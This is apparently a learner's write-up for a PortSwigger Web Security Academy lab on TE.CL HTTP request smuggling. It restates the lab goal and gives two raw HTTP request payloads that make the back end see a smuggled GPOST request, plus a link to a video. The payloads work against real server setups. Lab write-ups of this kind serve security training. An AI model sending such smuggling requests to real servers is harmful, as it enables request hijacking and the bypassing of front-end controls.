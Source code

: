 https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

![[Pasted image 20250818120825.png]]

``` HTTP
POST / HTTP/1.1
Host: example.com
Content-Type: appplication/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6  

0

```

Or:
``` HTTP
POST / HTTP/1.1
Host: 0a3a0027042671d380d6c118008300f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![[Pasted image 20250818010732.png]]


[Explained](https://www.youtube.com/watch?v=kIRIV-BwBTE&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=2&ab_channel=JarnoTimmermans)
